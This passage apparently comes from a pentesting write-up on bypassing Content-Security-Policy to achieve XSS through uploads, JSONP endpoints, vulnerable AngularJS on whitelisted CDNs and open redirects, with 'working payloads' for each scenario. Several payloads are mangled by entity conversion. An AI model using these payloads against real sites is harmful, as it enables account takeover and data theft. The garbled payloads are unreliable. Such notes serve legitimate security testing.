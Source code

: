 **Scenario**: **5**

Content-Security-Policy: script-src ‘self’; object-src ‘none’ ; report-uri /Report-parsing-url;

we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.

working payloads :"/&gt;’&gt;

**Scenario** : **6**

Content-Security-Policy: script-src ‘self’ https://www.google.com; object-src ‘none’ ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

working payload :"&gt;

**Scenario** : **7**

Content-Security-Policy: script-src ‘self’ https://cdnjs.cloudflare.com/; object-src ‘none’ ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

working payloads :

{{ x = $on.curry.call().eval(“fetch(‘http://localhost/index.php’).then(d =&gt; {})”) }}

"&gt;

{{<span class="math inline">$eval.constructor('alert(1)')()}}&lt;/div&gt;"&gt;&lt;script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"&gt; &lt;/script&gt; &lt;div ng-app ng-csp id=p ng-click=$</span>event.view.alert(1337)&gt;

**Scenario** : **8**

Content-Security-Policy: script-src ‘self’ ajax.googleapis.com[;](https://cdnjs.cloudflare.com/;) object-src ‘none’ ;report-uri /Report-parsing-url;

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

working payloads :ng-app"ng-csp ng-click=$event.view.alert(1337)&gt;

"&gt;

**Scenario** : **9**

Content-Security-Policy: script-src ‘self’ accounts.google.com/random/ website.with.redirect.com [;](https://cdnjs.cloudflare.com/;) object-src ‘none’ ; report-uri /Report-parsing-url;

In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
